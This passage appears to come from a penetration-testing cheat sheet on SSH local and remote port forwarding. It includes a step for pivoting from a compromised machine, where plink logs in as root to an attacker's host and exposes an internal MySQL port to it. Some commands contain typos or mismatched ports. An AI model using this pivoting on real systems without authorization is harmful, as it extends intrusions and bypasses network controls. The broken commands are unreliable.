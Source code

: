 Conclusion:

* The bind-address is where the proxy receives the connection and the connect-address is the machine it forwards the connection to.

### SSH Tunneling - Port Forwarding on SSH

Use Cases:

* You want to encrypt traffic that uses unencrypted protocols such as:
  * VNC, IMAP, IRC, etc.
* You are on a public network and want to encrypt all your HTTP traffic.
* You want to bypass firewall rules.

### Local Port Forwarding

The following will make Google available on address localhost:8080:

```
ssh -L 8080:www.google.com:80 localhost
```

You can also forward ports like this:

```
ssh username@<remote-machine> -L localport:target-ip:target-port

ssh username@192.168.1.111 -L 5000:192.168..1.222:5000
```

Now this port will be available on your localhost. So you can go to:

```
nc localhost:10000
```

### Remote Port Forwarding

* Remote port forwarding is a crazy, yet very simple concept. So imagine that you have compromised a machine and that machine has MYSQL running but it is only accessible via localhost. You cannot access it because you have a bad shell. One way to get around this is to just forward that port to our attacking machine.

Creating a remote port forward:

```
ssh <gateway> -R <remote port to bind>:<local host>:<local port>
```

* By the way, plink is an ssh-client for Windows that can be run from the terminal. The IP of the attacking machine is 111.111.111.111.

How-To:

1.  On the compromised machine, we do the following:

    ```
    plink.exe -l root -pw mysecretpassword 111.111.111.111 -R 3307:127.0.0.1:3306
    ```
2.  Now, we can check netstat on our attacking machine, we should see something like this:
